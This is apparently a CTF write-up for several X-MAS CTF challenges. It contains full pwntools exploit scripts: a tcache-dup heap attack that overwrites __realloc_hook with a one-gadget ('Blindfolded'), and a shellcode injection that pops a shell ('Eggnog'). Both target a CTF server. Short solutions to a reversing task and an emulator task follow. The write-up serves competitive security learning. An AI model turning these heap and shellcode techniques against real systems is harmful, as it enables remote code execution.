








---

## Pwn: ##
[Blindfolded|491](#Blindfolded) 

[Eggnog|409](#Eggnog)


## Rev: ##
[Reverthable X-Math|85](#Reverthable-X-Math)


## Emu: ##
[Emu 2.0|50](#Emu-2)


---


### Blindfolded



We have the following action permitted:


We cannot ever have a leak, and either write after allocating a chunk, indeed there's no binary, and as the author says all you need, you can get it
from the heap, malloc, free and realloc, (and ubuntu 18.04, libc 2.27).

So we can immagine the remote binary is compiled as follows:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

At this point we write some skel in C to inspect the heap, and try to understand what we must do to achieve the RCE, trying to follow the remote execution flow.
```
static void * ptrs[10];

int main(int argc, char *argv[], char *envp[]){
   

  char buff[256];
  void * tmpz;
  int i=0;
  unsigned long l1, l2;

  int SIZE=0x200 - 0x8;

  for(i=0; i<8; i++){
    ptrs[i]=malloc(SIZE);
    memset(ptrs[i], i+0x30, SIZE);
  }

  for(i=6; i>=0; i--){
    free( ptrs[i] );
  }
  // [1]

  free(ptrs[0]); 

  // [2]

  return 0;
}
```

[1] This is the status of the arena:


[2] We do tcache duplicate, and because the tcache[0x200] is full (max 7 elements), our chunk is inserted in unsortedbin, as it was when the chunk isn't fastbin size.
That means that we are able to get (not leak, and or modify) an address of main-arena, and so of libc.


Now, if we try to do malloc of some size less then 0x200, we will go in unsortedbin and split that chunk, so we have a chance to corrupt the tcache!


Can you note some difference?
If you look closely you will see that in previously status you have that 0x5555555756260 points to 0x7ffff7dcfca0, and now it points to 0x7ffff7dcfe90 .
From now on we'll call the 0x5555555756260 chunk as chunk_A

Now is time to get some hooks:



Wait a second, does the __realloc_hook contains already something?! that's new for me, ok so now I think I understood what I have to do.

#### Solution
  1. Do 8 malloc(0x200-0x8)
  2. Free 7 chunk, so to fit tcache[0x200]
  3. Free again the first chunk in the tcache[0x200], that was the last chunk we freed because of FIFO logic in tcache, and that is the chunk_A
  4. We don't want topchunk consolidate, because of that we did the free operations in reverse order, respect to our precedent malloc (you can ignore this)
  5. Now do malloc(0x140-0x8) and we get splitted chunk_A from the unsortedbin, meanwhile is still present as the first element in tcache[0x200]
  6. Now we can write in chunk_A and so we are able to corrupt the tcache, for example we can corrupt the LSB 2 bytes, in order to point to &__realloc_hook
     but from 0x7ffff7dcfe90 to 0x7ffff7dcfc28 there's 4 bits of guessing, because we know also that the address will end in 0xc28, and so we must guess 0xf 

  7. After so, we do one malloc(0x200-0x8), and we insert the string "/bin/bash\x00", that is in case we'll need it, we call it chunk_B
  8. Then the next malloc(0x200-0x8) we'll return __realloc_hook, if the guessing was right otherwise we are not interested
  9. After we get __realloc_hook, we have in there already 0x7ffff7a7c790, and to insert the system address 0x7ffff7a33440, we must guess 12 bits
  10. now we can call realloc(chunk_B) and spawn a shell
  11. I collected 10.000+ execution in local, and after getting the distribution of the address I choosed to use 0xf60240 as LSB of the system address


After some iteration, I was not convinced about this solution, and I note that in step [2], the chunk_A points to 0x7ffff7dcfca0 and in that case
I just need to corrupt one byte to get __realloc_hook, and so without guessing anymore 16 bits, but only 12, I will be able to spawn a shell.

Then I was thinking to use realloc(chunk_A), but after the first call to realloc, the  __realloc_hook is cleaned and contains NULL.

I played a litle with the remote service, and I noted that it does not check the return status of the free, so we are able to malloc more than 10 elements



So at the end of the day, this is the solution I did:
  1. do eight malloc(0x200-0x8)

    // same as before

  6. After do 6 malloc(0x140-0x8), 
  7. Free 7 chunk, so to fit tcache[0x140]
  8. Free again the first chunk in the tcache[0x200], that was the last chunk we freed ..., that chunk is again chunk_A 
  9. So now we have again our chunk_A pointing to 0x7ffff7dcfca0 and so we are able to get for sure __realloc_hook


  10. The rest is homework

```
from pwn import *
import signal
import sys, time

context.update(arch='amd64', os='linux' )
r = None

def new_chunk(index, size, data):
  r.recvuntil(">")
  r.sendline("1")
  r.recvuntil("idx")
  r.sendline(str(index))
  r.recvuntil("sz:")
  r.sendline(str(size))
  r.recvuntil("data:")
  r.send(data)
  r.recvuntil("Created")

def delete_chunk(index):
  r.recvuntil(">")
  r.sendline("2")
  r.recvuntil("idx")
  r.sendline(str(index))
  r.recvuntil("Deleted")
  
def give_up():
  r.recvuntil(">")
  r.sendline("3")

def realloc_chunk(index, size, data):
  r.recvuntil(">")
  r.sendline("1337")
  r.recvuntil("idx")
  r.sendline(str(index))
  r.recvuntil("sz")
  r.sendline(str(size))


def pwn(gadgets):
  global r
  gadget_list = [ "\x40\x02\xf6", "\xc5\x02\xf6", "\x22\x03\xf6"] #the flag was found with the index:2 element that have the clause [rsp+0x40] == NULL
  r=remote("challs.xmas.htsp.ro", 12004)
  r.recvuntil("Are you ready for another heap challenge?")

  size_now = 0x200 -0x8
  [ new_chunk(x, size_now, str(x)) for x in range(8) ]
  [ delete_chunk(x) for x in range(6,-1,-1)]
  delete_chunk(0)

  size_now = 0x140 -0x8
  [ new_chunk(x, size_now, str(x)) for x in range(7) ] #cannot use already spaced chunk 7 ;)
  new_chunk(8, size_now, str(8))
  [ delete_chunk(x) for x in range(6,-1,-1)]
  delete_chunk(0)

  new_chunk(0, 0x140-0x8,"\x28")
  new_chunk(1, 0x200-0x8,"/bin/bash\x00")
  new_chunk(2, 0x200-0x8, gadget_list[gadgets])
  realloc_chunk(1, 0x30, "cat flag.txt\x00")
  r.sendline("cat flag.txt\x00")
  r.sendline("cat flag.txt\x00")
  r.sendline("cat /root/flag.txt\x00")
  r.sendline("cat /flag.txt\x00")
  r.sendline("cat /home/blindfolded/flag.txt\x00")
  r.recvuntil("X-MAS",timeout=10)
  rets=r.recvline()
  flag=open("flags_here", "a")
  flag.write("\nid{0}\n".format(gadgets))
  flag.write(rets)
  flag.write("\nid{0}".format(gadgets))
  flag.close()
  return

gadgets = int(sys.argv[1])
pwn(gadgets)
r.close()
```


### Eggnog

```
from pwn import *
import signal
import sys

def signal_handler(sig, frame):
        print('You pressed Ctrl+C!')
        sys.exit(0)
#signal.signal(signal.SIGINT, signal_handler)
#print('Press Ctrl+C')
# Init config
context.arch = 'amd64' 
#context.log_level = logging.DEBUG #with debug output
prog_name = './eggnog'
context.binary = prog_name 
## init of python
debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("challs.xmas.htsp.ro", 12010)
  online=True
elif(debug == 1):
  r = process(prog_name, aslr=False)
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def halt():
  while True:
    log.info( r.recvline() )

# or if you have issue, use interactive but instead you need to open it in another terminal
def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def pwn():
  offset_adjust = 0x110070+0x11
  buff2  = ""
  buff2 += asm('pop rcx')
  buff2 += asm('pop rcx')
  buff2 +=  asm('sub rcx,{0}'.format(hex(offset_adjust)))
  buff2 += asm('mov rax, 0x4f2c511')
  buff2 += asm('shr rax,0x8')
  buff2 += asm('add rax, rcx')
  buff2 += asm('xor rcx, rcx')
  buff2 += asm('call rax')
  buff2 += asm('ret')
  buff2 += "\x90" * (0x246 - len(buff2))

  #header ="\x4C\x87\xDA\x0F\x05\xFF\xD6"
  header = ""
  header += asm('xchg rdx, r11 ')
  header += asm('push rcx')
  header += asm('syscall')
  header += asm('call rsi')

  buff = ""
  buff += header

  if not online:
    gdb.attach(r, '''
      set follow-fork-mode child
      b *(0x555555554000 + 0xbfd)
      c
      ''')


  count=1
  while True:
    r.recvuntil("What eggs would you want to use for eggnog?")
    r.sendline(buff + "\x01"*(45 - len(buff)))

    #if count==0:
    #  r.interactive()
    #  return

    #count = 0
    r.recvuntil("Eggnog to be cooked")
    tmp_ret = r.recvline().rstrip().split(" ")[1].replace("\\","").split("x")[1:][:len(header)]
    tmp_ret = "".join([chr(int(x,16)) for x in tmp_ret])
    print(list(tmp_ret))
    print(list(header))
    if header == tmp_ret:
      print("[+] Header is right..")
      r.recvuntil("Would you like to cook this eggnog? (y/n)")
      r.sendline("y")
      r.sendline(buff2)
      r.interactive()
      return
    else :
      r.recvuntil("Would you like to cook this eggnog? (y/n)")
      r.sendline("n")

pwn()
```


### Reverthable-X-Math
* [task.lsp](./task.lsp)
* [output.txt](./output.txt)

the only interesting function is the following:
```
     7	        (princ (logxor (- (char-int (char str mead)) (char-int #\0)) 42))
```

So each element of the input was substracted with 0x30, and then xored with 42 as decimal.
We just need the right positions, and to do so we try the input 'X-MAS{1234567890CDFGHJKILMNOPQR}'
and after very little guessing we got the flag: 'X-MAS{= l0v3 (+ 5t4llm4n 54n74)}'


### Emu-2

Fetch, decode, execute

* [emu2.py](./emu2.py)

